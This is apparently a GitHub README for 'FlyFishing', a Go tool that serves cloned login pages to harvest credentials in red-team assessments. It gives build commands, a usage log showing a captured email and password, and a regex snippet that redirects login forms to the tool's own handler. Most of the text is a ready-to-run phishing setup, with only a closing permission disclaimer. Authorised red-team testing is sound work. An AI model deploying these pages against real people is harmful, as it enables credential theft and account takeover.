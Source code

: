 # FlyFishing
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. 

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go build -o fishing main.go
```

# Usage 🎯
Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

# Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html)

# Disclaimer
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.